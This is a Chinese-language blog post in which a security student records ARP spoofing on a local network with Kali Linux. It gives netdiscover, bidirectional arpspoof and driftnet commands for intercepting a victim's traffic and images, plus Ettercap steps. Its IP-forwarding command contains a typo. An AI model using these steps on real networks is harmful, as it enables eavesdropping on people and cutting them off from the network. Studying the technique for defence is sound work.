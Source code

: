 # kali进行arp嗅骗和攻击的一次记录

由于本人打算考网络安全的专硕，所以这几天玩了一次kali。恩，怎么说呢，感触挺深的，特此记录下来

## arp基础

在我们进行各种高大上的讲解的时候，我们要先清楚一点，我们如何在网上进行各种活动的。 比如我们经常用的baidu,我们是如何访问到baidu的服务器的。

我们可以通过追踪路由来弄清楚这个问题

windows: tracert linux:traceroute

通过运行上面的命令我们可以看出数据包的传输过程 ![](https://s2.ax1x.com/2019/10/14/KpcYcR.png)

> 由于本人身处深山，所以网络查的可以，上面的图仅供参考

我们可以看到，我们的探测数据包经过了很多路由的转发最终达到了我们的机器上

并且，这里我们需要引出很重要的东西 -- **网关**

网关我们可以这么理解: 相信大家家里都有有线网了吧，我们其实可以把网关看成我们的那个接入网络的光猫路由器。

我们所有的数据包都是通过网关这个小东西传输。

现在，重点来了！！！！

> 敲黑板

假如，我们在同一个局域网下面，有两台机器，一台是我们自己，一台是需要攻击的机器。

那么，正常情况下，两台机器都有自己的ip地址 (192.168.x.x)，进行自己正常的网络服务,但是如果我们告诉对方机器现在我就是路由器，而且如果我的机器不能进行端口转发的时候，对面的机器就进不去网了。

需要注意的一点哈，现在我们告诉了对方机器我们是路由器，但是路由器还是可以给对面机器通信的。

这一点可以重复上面的操作，就是告诉路由器我们就是对面机器，进行双向嗅探来解决。

## 如何进行攻击

### 命令行方法

一、 获取对方信息

由于这篇博客写的是内网渗透，所以，我们需要扫描当前网络下的其他机器

```bash
  > ifconfig
```

![](https://s2.ax1x.com/2019/10/16/KiPr90.png)

先查看一下自己ip 里面重要的消息 有网卡和ip

这里说明一点,一般的话网关的最后一位数字一般都是1

```bash
  > netdiscover -i [网卡] -r [网关/24]
  example:
  > netdiscover -i eth0 -r 192.168.3.1/24
```

这样就可以获取对方ip，这里我只有一台电脑，我就不放图了

二、开始进行嗅探

```bash
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

> arpspoof -i eth0 [对方ip]  网关

```

双向嗅探

```bash
  > arpspoof -i eth0 [对方ip]  网关
  > arpspoof -i eth0 [网关]  对方ip
```

> 由于kali默认情况下是禁止端口转发的，所以现在的情况下对面机器是断网的

开启端口转发

```bash
  echo 1> /proc/sys/net/ipv4/ipforward
```

1是开启 0是关闭

> proc是目前开机的时候机器的配置，重启的话会重置

抓取对面图片

```bash
  driftnet -i eth0
```

### 软件嗅探

![](https://s2.ax1x.com/2019/10/16/KiFqkd.png)

具体做法

sniff->unified sniffing

host -> hostlist

host -> scan for host

![](https://s2.ax1x.com/2019/10/16/KikuBF.png)

网关IP add to target 1 靶机 add to target 2

Mitm->ARP poisoning

要记住选中第一项 第二项是单项ARP毒缓存 用于靶机会失败报警 单向欺骗网关

开启driftnet

